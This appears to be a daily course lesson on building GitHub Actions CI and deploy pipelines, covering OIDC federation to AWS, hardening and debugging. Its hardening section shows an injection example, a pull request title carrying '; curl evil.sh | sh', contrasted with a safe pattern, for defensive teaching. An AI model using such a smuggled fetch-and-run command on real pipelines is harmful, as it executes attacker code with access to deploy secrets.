

Yesterday you designed a pipeline. Today you build it, in the repository you protected on Day 7.

## Anatomy of a workflow

```yaml title=".github/workflows/ci.yml"
name: CI

on:
  pull_request:
    branches: [main]
  push:
    branches: [main]
  workflow_dispatch:        # lets you run it manually from the Actions tab

# Cancel an in-progress run when a new commit is pushed to the same PR.
concurrency:
  group: ci-${{ github.ref }}
  cancel-in-progress: true

permissions:
  contents: read            # start from the minimum and add what you need

jobs:
  lint:
    name: Lint & type check
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4

      - uses: actions/setup-python@v5
        with:
          python-version: '3.12'
          cache: pip

      - name: Install tooling
        run: pip install ruff mypy

      - name: Ruff
        run: ruff check python/

      - name: Mypy
        run: mypy python/ --ignore-missing-imports

  test:
    name: Tests (Python ${{ matrix.python-version }})
    runs-on: ubuntu-latest
    strategy:
      fail-fast: false      # let every version report, not just the first failure
      matrix:
        python-version: ['3.11', '3.12']
    steps:
      - uses: actions/checkout@v4

      - uses: actions/setup-python@v5
        with:
          python-version: ${{ matrix.python-version }}
          cache: pip

      - run: pip install -r requirements.txt -r requirements-dev.txt

      - name: Run tests
        run: pytest --junitxml=test-results.xml --cov=python --cov-report=xml

      - name: Upload results
        if: always()        # publish results even when the tests failed
        uses: actions/upload-artifact@v4
        with:
          name: test-results-${{ matrix.python-version }}
          path: |
            test-results.xml
            coverage.xml

  schemas:
    name: Validate JSON Schema examples
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - uses: actions/setup-python@v5
        with: { python-version: '3.12' }
      - run: pip install "jsonschema[format]"
      - name: Every example must match its schema
        run: python python/scripts/validate_examples.py schemas/

  secrets-scan:
    name: Secret scan
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
        with:
          fetch-depth: 0    # gitleaks needs history to scan it
      - uses: gitleaks/gitleaks-action@v2
        env:
          GITHUB_TOKEN: ${{ secrets.GITHUB_TOKEN }}
```

Things worth noticing:

- **`concurrency` with `cancel-in-progress`** — pushing three commits in a row runs the pipeline once, not three times. Saves minutes and gives faster feedback.
- **`permissions: contents: read`** — the default `GITHUB_TOKEN` used to be broadly write-capable. Declare the minimum and add explicitly.
- **`fail-fast: false`** — otherwise one failing matrix leg cancels the others and you only learn about one problem.
- **`if: always()`** on the upload — test results are *most* interesting when the tests failed.
- **`cache: pip`** — dependency installation is usually the slowest step. Caching it often halves the run.

## The deploy workflow

Separate file, different trigger, different permissions.

```yaml title=".github/workflows/deploy.yml"
name: Deploy

on:
  push:
    branches: [main]
  workflow_dispatch:
    inputs:
      environment:
        description: Target environment
        required: true
        default: staging
        type: choice
        options: [staging, production]

permissions:
  contents: read
  id-token: write           # required for OIDC — this is what mints the cloud token

jobs:
  build:
    runs-on: ubuntu-latest
    outputs:
      artifact-name: ${{ steps.meta.outputs.name }}
    steps:
      - uses: actions/checkout@v4

      - id: meta
        run: echo "name=app-${GITHUB_SHA::7}" >> "$GITHUB_OUTPUT"

      - uses: actions/setup-python@v5
        with: { python-version: '3.12' }

      - name: Build the deployment package
        run: |
          pip install -r requirements.txt -t build/
          cp -r python/src/* build/
          cd build && zip -r "../${{ steps.meta.outputs.name }}.zip" .

      - uses: actions/upload-artifact@v4
        with:
          name: ${{ steps.meta.outputs.name }}
          path: ${{ steps.meta.outputs.name }}.zip
          retention-days: 30

  deploy-staging:
    needs: build
    runs-on: ubuntu-latest
    environment:
      name: staging
      url: https://staging.example.com
    steps:
      - uses: actions/download-artifact@v4
        with: { name: ${{ needs.build.outputs.artifact-name }} }

      - name: Assume the AWS deploy role via OIDC
        uses: aws-actions/configure-aws-credentials@v4
        with:
          role-to-assume: arn:aws:iam::123456789012:role/github-actions-deploy
          aws-region: eu-west-2

      - name: Deploy
        run: |
          aws lambda update-function-code \
            --function-name support-ingest-staging \
            --zip-file "fileb://${{ needs.build.outputs.artifact-name }}.zip"

      - name: Smoke test
        run: |
          sleep 5
          curl -fsS https://staging.example.com/health | tee /dev/stderr | grep -q '"status":"ok"'

  deploy-production:
    needs: [build, deploy-staging]
    runs-on: ubuntu-latest
    environment:
      name: production        # protection rules on this environment force the approval
      url: https://example.com
    steps:
      - uses: actions/download-artifact@v4
        with: { name: ${{ needs.build.outputs.artifact-name }} }

      - uses: aws-actions/configure-aws-credentials@v4
        with:
          role-to-assume: arn:aws:iam::123456789012:role/github-actions-deploy
          aws-region: eu-west-2

      - name: Deploy the same artifact that passed staging
        run: |
          aws lambda update-function-code \
            --function-name support-ingest-prod \
            --zip-file "fileb://${{ needs.build.outputs.artifact-name }}.zip"

      - name: Post-deploy verification
        run: |
          for i in $(seq 1 10); do
            curl -fsS https://example.com/health && exit 0
            sleep 6
          done
          echo "Health check never passed" >&2
          exit 1
```

Note that `deploy-production` downloads **the artifact `build` produced**, not a fresh build. That is yesterday's "build once, promote" principle expressed in YAML.

The manual approval gate is not in the YAML at all — it comes from **environment protection rules**, configured in Settings → Environments → production → Required reviewers. This is the cleanest way to add a gate, because it is auditable and does not require a bot.

## Secrets, and why OIDC is better

```yaml title="secrets-usage.yml"
      - name: Using a stored secret
        env:
          API_TOKEN: ${{ secrets.SUPPORT_API_TOKEN }}
        run: python python/scripts/sync.py
```

Secrets are encrypted, masked in logs, and unavailable to workflows triggered by pull requests from forks. All good.

But a stored AWS access key is still a **long-lived credential sitting in a system that executes code from pull requests.** OIDC removes it entirely:



The AWS trust policy that makes this work:

```json title="github-oidc-trust.json"
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Principal": {
      "Federated": "arn:aws:iam::123456789012:oidc-provider/token.actions.githubusercontent.com"
    },
    "Action": "sts:AssumeRoleWithWebIdentity",
    "Condition": {
      "StringEquals": {
        "token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
      },
      "StringLike": {
        "token.actions.githubusercontent.com:sub": "repo:YOUR-ORG/YOUR-REPO:ref:refs/heads/main"
      }
    }
  }]
}
```

:::hint{type=danger}
The `sub` condition is the entire security of this arrangement. `repo:YOUR-ORG/*` would let **any** repository in your organisation assume the deploy role. `repo:YOUR-ORG/YOUR-REPO:*` would let any branch — including a branch on a pull request — assume it. Scope it to the specific branch or environment, e.g. `repo:org/repo:environment:production`.
:::

```quiz
question: Why is OIDC federation preferable to storing an AWS access key as a GitHub secret?
options:
  - OIDC workflows run faster
  - There is no long-lived credential to leak, rotate, or exfiltrate; the token is short-lived and scoped to the repository and branch
  - GitHub secrets are stored in plain text
  - AWS charges for access keys
answer: 1
explanation: GitHub secrets are encrypted, but they are still standing credentials in a system that runs code. OIDC issues a one-hour credential bound to specific repo, branch and environment claims, so there is nothing persistent to steal.
```

## Security hardening

Six habits worth adopting on day one:

:::steps

1. **Pin third-party actions to a commit SHA**, not a tag. Tags are mutable — `@v2` can be repointed at malicious code.

   ```yaml
   - uses: gitleaks/gitleaks-action@44c470ffc35caa8b1eb3e8012ca53c2f9bea4eb5  # v2.3.7
   ```

2. **Set `permissions` explicitly** at workflow level, and widen per-job only where required.

3. **Never use `pull_request_target`** unless you fully understand it. It runs with write permissions and access to secrets, in the context of a pull request that may come from a fork. It is the single most exploited GitHub Actions misconfiguration.

4. **Do not interpolate untrusted input into `run:` blocks.**

   ```yaml
   # DANGEROUS — a PR title of  "; curl evil.sh | sh #  becomes shell
   - run: echo "Title: ${{ github.event.pull_request.title }}"

   # SAFE — passed as an environment variable, never parsed as shell
   - run: echo "Title: $TITLE"
     env:
       TITLE: ${{ github.event.pull_request.title }}
   ```

5. **Require status checks in branch protection.** A workflow nobody is required to pass is decoration.

6. **Enable Dependabot** for `github-actions` as well as your language ecosystem.

:::

## Debugging a failing workflow

| Symptom | Usual cause |
|---|---|
| Workflow does not trigger at all | Wrong branch filter, YAML syntax error, file not on the default branch yet |
| `Resource not accessible by integration` | `permissions` too narrow for what the job is doing |
| Works locally, fails on the runner | Path assumptions, case-sensitive filesystem on Linux, missing system package |
| Intermittent failures | Test order dependence, a real race, or an unpinned external dependency |
| Secret is empty | Not defined for that environment, or the workflow came from a fork |

Practical tools:

```yaml title="debug.yml"
      - name: Dump context when debugging
        run: |
          echo "ref=${{ github.ref }}  sha=${{ github.sha }}  actor=${{ github.actor }}"
          echo "event=${{ github.event_name }}"
          env | sort
```

Enable step debug logging by setting a repository secret `ACTIONS_STEP_DEBUG` to `true`. And run workflows locally with [`act`](https://github.com/nektos/act) — imperfect, but it turns a five-minute push-and-wait loop into a fifteen-second one.

:::hint{type=tip}
Add a **required** status check named something like `ci-complete` that simply `needs:` all your other jobs. Then branch protection has one stable check to require, and you can add or rename underlying jobs without reconfiguring protection every time.

```yaml
  ci-complete:
    if: always()
    needs: [lint, test, schemas, secrets-scan]
    runs-on: ubuntu-latest
    steps:
      - name: Fail if any dependency failed
        if: contains(needs.*.result, 'failure') || contains(needs.*.result, 'cancelled')
        run: exit 1
```
:::

## Exercise

:::checklist{title="Day 16 checklist"}
- [ ] `.github/workflows/ci.yml` created with lint, test and schema-validation jobs
- [ ] Matrix build across two Python versions, with `fail-fast: false`
- [ ] Dependency caching enabled; measure the run time before and after
- [ ] Test results uploaded as an artifact, including on failure
- [ ] Secret scanning job added
- [ ] `ci-complete` aggregate job added and set as a required status check
- [ ] Open a PR that deliberately fails lint; confirm the merge button is blocked
- [ ] Fix it; confirm the check goes green and merging becomes possible
- [ ] `.github/workflows/deploy.yml` created, building an artifact once and promoting it
- [ ] A `production` environment created with a required reviewer; observe the approval prompt
- [ ] OIDC configured for AWS **or** a written note explaining exactly how you would do it
- [ ] Every third-party action pinned to a commit SHA
- [ ] Dependabot enabled for `github-actions`
:::

:::details{summary="A minimal validate_examples.py for the schema job"}
```python
#!/usr/bin/env python3
"""Validate every example payload against its schema. Exit non-zero on any failure."""
import json, sys
from pathlib import Path
from jsonschema import Draft202012Validator, FormatChecker

def main(root: Path) -> int:
    failures = 0
    for schema_path in root.glob("*.schema.json"):
        schema = json.loads(schema_path.read_text(encoding="utf-8"))
        Draft202012Validator.check_schema(schema)
        validator = Draft202012Validator(schema, format_checker=FormatChecker())
        stem = schema_path.name.removesuffix(".schema.json")

        for example in (root / "examples" / "valid" / stem).glob("*.json"):
            errors = list(validator.iter_errors(json.loads(example.read_text())))
            if errors:
                failures += 1
                print(f"FAIL {example}: {errors[0].message}")
            else:
                print(f"ok   {example}")

        for example in (root / "examples" / "invalid" / stem).glob("*.json"):
            if not list(validator.iter_errors(json.loads(example.read_text()))):
                failures += 1
                print(f"FAIL {example}: expected invalid, but it validated")
            else:
                print(f"ok   {example} (correctly rejected)")

    return 1 if failures else 0

if __name__ == "__main__":
    raise SystemExit(main(Path(sys.argv[1])))
```

Note that it checks the **invalid** examples too. A schema that accepts everything passes a naive test suite trivially.
:::

## Where this is going

Tomorrow, the same ideas expressed in AWS's own tooling — CodePipeline and CodeBuild — so you can read a pipeline written either way and recognise it as the same thing.
